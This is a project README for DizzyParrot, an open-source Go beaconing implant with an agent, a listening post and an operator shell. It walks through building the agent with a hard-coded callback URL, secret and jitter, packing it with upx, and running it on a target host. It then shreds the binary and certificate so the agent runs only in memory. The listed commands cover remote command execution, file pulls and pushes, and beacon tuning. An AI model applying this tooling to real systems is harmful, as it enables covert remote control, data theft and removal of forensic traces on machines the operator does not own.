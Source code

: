 # DizzyParrot

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

![Shell](https://user-images.githubusercontent.com/10587919/78269929-34740c80-74d8-11ea-94cf-ecdc0d130dbe.png)

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Generate cert
cd server; mkdir cert
openssl req -newkey rsa:2048 -nodes -keyout cert/server.key -x509 -days 365 -out cert/server.crt

# Start the LP
./server -c cert/config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

If not using real certs, the client requieres the server certificate upon execution. After execution, the binary and certificate can be removed from disk. 

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt
```
#### Basic Usage

```
agents               : List available agents.
agent <agent name>   : Tag into an agent for interaction. Tag without a name brings the user back to home and lists agents. 
task <command>       : Task the agent to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged               : Show jobs in the queue and are staged to be deployed to the agent.
deploy               : Move staged jobs into the deployed queue. Agent will pick these tasks up.
revoke               : Remove deployed jobs. 
revoke restage       : Removes deployed jobs and places in the staged queue to allow for additional commands to be added.
flush                : Flush the commands in the staged queue.
set callback <int>   : Task the agent to modify its callback. In seconds.
set jitter <int>     : Task the agent to offset the callback (+/-) by x seconds. In seconds.
kill                 : Kill the agent process.
job <job_id>         : Show the output from a job
jobs                 : List complete and deployed jobs.
pull <rfile>         : Pull a file from the target machine.
push <lfile> <rfile> : Push a local file to the target machine
forget <agent_name>  : Remove an agent from the database. 
dump agent           : Not yet implemented
dump job             : Not yet implemented
```

#### Todo
 
1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database. Based on bool value. Preserve pull path.

3. Add shell feature to dump agent results and commands to disk.

4. Add shell command to wipe database.

5. Add a scheduler option to run recurring commands at a given interval.
